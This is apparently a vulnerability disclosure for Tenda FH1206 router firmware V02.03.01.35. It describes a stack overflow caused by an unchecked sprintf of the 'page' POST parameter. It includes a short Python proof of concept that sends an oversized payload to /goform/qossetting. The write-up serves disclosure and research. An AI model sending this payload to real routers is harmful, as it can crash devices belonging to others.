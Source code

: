## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v7, "qos_list.asp?page=%s", v4);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v7` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-01 221554.png)

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
